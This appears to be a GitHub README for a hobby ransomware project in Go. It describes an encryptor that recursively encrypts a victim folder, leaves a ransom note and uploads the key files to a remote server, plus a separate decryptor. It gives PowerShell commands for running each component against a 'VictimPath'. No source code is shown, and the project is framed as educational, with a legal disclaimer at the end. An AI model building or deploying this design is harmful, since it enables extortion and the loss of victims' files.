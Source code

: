 # 🖥️ Home-made Ransomware💡

## 🚀 A Bold Attempt 

This was conceived as an experiment, I tried to code it without breaking my laptop. 😅 
ALL ETHICAL, ALL EDUCATIONAL.

## ✨ Features

- Hybrid encryption: RSA + AES
- Key separation: server, client, session keys
- HTTPS upload of encrypted keys to remote server
- Self-signed certificate generation for local HTTPS
- Modular structure with clean binaries



## 📖 Components

### `encryptor`
- Encrypts files recursively in a target folder.
- Renames them with `.jjj` extension.
- Generates:
  - `file.keys` (AES keys per file)
  - `master.key` (encrypted client private key)
  - `server.key` (RSA key used to decrypt the client key)
  - `warning.txt` with ransom note
- Uploads `file.keys` and `master.key` to the server via HTTPS.

### `server`
- Listens on `https://<SERVER_HOST>:<SERVER_PORT>/upload`
- Accepts `file.keys` and `master.key`
- Saves them under `data/YYYYMMDD-HHMMSS/`
- Automatically generates a self-signed cert if needed

### `decryptor`
- Recovers `.jjj` files using `server.key`, `master.key`, and `file.keys`
- Restores the original filenames and extensions


## 🚀 Getting Started

<b> Note </b> : You can use the `.env.example` file or use Linux envs as shown in the following comands!

### Option 1: Using compiled binaries (recommended)

1. Open PowerShell and run the server:

```powershell
$env:SERVER_HOST = "localhost"
$env:SERVER_PORT = "8443"
releases/server.exe
```

2. In separate terminal, run the encryptor:
```powershell
$env:SERVER_HOST = "localhost"
$env:SERVER_PORT = "8443"
$env:RANSOM_MESSAGE = "Your files have been encrypted. Contact us."
releases/encryptor.exe FilePathToEncrypt
```

3. To decrypt later:
```powershell
releases/decryptor.exe EncryptedFilePath
```
### Option 2: Using go run (for development)
1. Run the server:
```powershell
$env:SERVER_HOST = "localhost"
$env:SERVER_PORT = "8443"
go run cmd/server/server.go
```

2. Run the encryptor:
```powershell
$env:SERVER_HOST = "localhost"
$env:SERVER_PORT = "8443"
$env:RANSOM_MESSAGE = "Your files have been encrypted. Contact us."
go run cmd/agent/encryptor.go VictimPath
```

3. Decrypt if needed:
```powershell
go run cmd/agent/decryptor.go EncryptedFiles
```

## 🚫 Legal Notice

This software is intended **strictly for educational and ethical testing purposes**.  
It must not be used in real-world systems or against machines you do not own or have explicit permission to test.

---

<p align="center">
  <img src="https://github.com/user-attachments/assets/39f38f68-d36c-4d91-bebe-836b129d1244" alt="imagen">
</p>
